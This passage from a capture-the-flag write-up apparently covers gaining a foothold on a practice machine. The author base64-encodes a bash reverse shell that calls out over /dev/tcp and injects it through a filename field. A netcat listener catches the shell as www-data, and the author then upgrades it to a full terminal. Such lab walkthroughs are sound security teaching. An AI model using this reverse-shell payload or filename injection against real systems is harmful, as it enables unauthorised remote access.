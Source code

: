 To get a shell, I'll try a [bash reverse
shell](https://www.youtube.com/watch?v=OjkVep2EIlw). It doesn't work in
raw form, likely because of the special characters required. I'll
base64-encode the shell, messing with extra whitespace until there's no
special characters (not always required, but can be helpful):



    oxdf@hacky$ echo 'bash -i &> /dev/tcp/10.10.14.6/443 0>&1' | base64 -w0
    YmFzaCAtaSAmPiAvZGV2L3RjcC8xMC4xMC4xNC42LzQ0MyAwPiYxCg==
    oxdf@hacky$ echo 'bash -i &> /dev/tcp/10.10.14.6/443 0>&1 ' | base64 -w0
    YmFzaCAtaSAmPiAvZGV2L3RjcC8xMC4xMC4xNC42LzQ0MyAwPiYxIAo=
    oxdf@hacky$ echo 'bash -i &> /dev/tcp/10.10.14.6/443 0>&1  ' | base64 -w0
    YmFzaCAtaSAmPiAvZGV2L3RjcC8xMC4xMC4xNC42LzQ0MyAwPiYxICAK



Now I'll send that as the `filename`:

![](/img/image-20230418125705292.png)

It hangs, but there's a shell at a listening `nc`:



    oxdf@hacky$ nc -lnvp 443
    Listening on 0.0.0.0 443
    Connection received on 10.10.11.197 37680
    bash: cannot set terminal process group (960): Inappropriate ioctl for device
    bash: no job control in this shell
    www-data@investigation:~/uploads/1681837009$



I'll upgrade the shell using the [standard
trick](https://www.youtube.com/watch?v=DqE6DxqJg8Q):



    www-data@investigation:~/uploads/1681837009$ script /dev/null -c bash
    script /dev/null -c bash
    Script started, file is /dev/null
    www-data@investigation:~/uploads/1681837009$ ^Z
    [1]+  Stopped                 nc -lnvp 443
    oxdf@hacky$ stty raw -echo; fg
    nc -lnvp 443
                reset
    reset: unknown terminal type unknown
    Terminal type? screen
    www-data@investigation:~/uploads/1681837009$
